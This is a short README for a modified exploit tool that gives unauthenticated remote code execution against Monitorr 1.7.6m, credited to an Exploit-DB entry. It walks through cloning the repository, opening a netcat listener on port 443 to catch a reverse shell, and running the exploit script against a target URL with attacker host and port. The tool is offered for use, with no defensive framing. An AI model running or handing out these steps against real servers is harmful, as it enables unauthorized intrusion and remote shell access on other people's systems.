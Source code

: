 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne
## Credits to LYHIN'S LAB (https://www.exploit-db.com/exploits/48980)

### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_rce.git``

``cd monitorr_1.7.6m_rce``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python 48980.py https://domain.com LHOST PORT``


